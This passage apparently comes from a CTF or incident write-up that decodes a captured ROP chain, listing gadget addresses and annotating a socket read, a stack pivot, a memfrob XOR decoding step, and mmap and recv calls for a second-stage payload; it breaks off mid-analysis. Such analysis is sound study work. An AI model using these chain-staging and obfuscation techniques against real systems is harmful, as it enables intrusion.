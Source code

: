 The output is (comments have been added for better comprehension):
```
$ python elrop.py
0xb75735da	pop esi ; pop edi ; pop ebp ; ret
0x63413563	
0xb77b6130	
0x41386341	
0xb7519051	pop ecx ; pop eax; ret
0x61626360	
0x61626364	
0xb7564788	sub eax,ecx ; ret			# EAX = 4
0xb7513728	xchg ebx,eax ; ret			# EBX = 4
0xb7519051	pop ecx ; pop eax; ret
0x61626240	
0x61626364	
0xb7564788	sub eax,ecx ; ret			# EAX = 0x124
0xb7545599	mov edx,eax ; mov eax,edx ; ret		# EDX = 0x124
0xb7519051	pop ecx ; pop eax; ret
0xb77b6420	
0xb77b6423	
0xb7564788	sub eax,ecx ; ret			# EAX = 0x3 ; ECX = 0xb77b6420
0xb75153a1	int 0x80 ; pop ; pop ; pop ; pop ; ret	# SYSCALL => read(4, 0xb77b6420, 0x124)
0x78696761	
0x74726373	
0x6665736f	
0x75757566	
0xb75ccbdd	pop esp ; ret				# ESP = 0xb77b6420
0xb77b6420
```

This ROP chain reads 0x124 bytes on the socket and stores them @0xb77b6420. Then the stack is shifted to point to 0xb77b6420. We thus understand that a second ROP chain has been sent to the server.

We can retrieve these 0x124 bytes and repeat the decoding operation:
```
$ python elrop.py
0xb74a7b90	memfrob()
0xb7519051	pop ecx ; pop eax; ret
0xb77b6430	
0x114	
0x9d7b22aa	
0x9d6c08dd	
0x391d2a2a	
0x2a2a0a2a	
[...]
```

It seems we only have 4 valid gadgets, and then garbage. However, there is a call to memfrob, with parameters 0xb77b6430 and 0x114. 0xb77b6430 is the beginning of the second ROP chain plus 0x10, and 0x114 is the size minus 0x10. memfrob(void *ptr, size_t n) is a fonction to XOR each byte of a memory range with 42! We thus have to apply the same decoding to the rest of our ROP chain:
```
0xb74a7b90	memfrob()
0xb7519051	pop ecx ; pop eax; ret
0xb77b6430	
0x114	
0xb7510880	mmap()					# mmap @ 0x13370000, size 0x2000
0xb74622f7	add esp,0x1c ; ret
0x13370000	
0x2000	
0x3	
0x31	
0x0	
0x0	
0x78696761	
0xb7516bb0	recv()					# recv(4, 0x13370000, 0x1e)
```